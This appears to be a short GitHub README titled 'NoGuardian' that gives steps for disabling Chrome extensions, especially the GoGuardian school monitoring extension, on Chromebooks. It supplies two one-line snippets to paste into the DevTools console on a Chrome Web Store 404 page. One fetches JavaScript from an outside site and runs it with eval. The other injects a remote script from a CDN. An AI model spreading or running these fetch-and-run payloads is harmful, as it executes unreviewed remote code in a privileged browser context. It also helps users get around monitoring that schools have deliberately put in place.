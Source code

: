 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

UPDATE: JUST GO HERE: https://tylerhalltech.com/noguardian.php

## 1) PREPARE EXPLOIT
Copy the code here:

## Code #1
```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

## Code #2 (BETTER THAN #1)
```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```


## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)

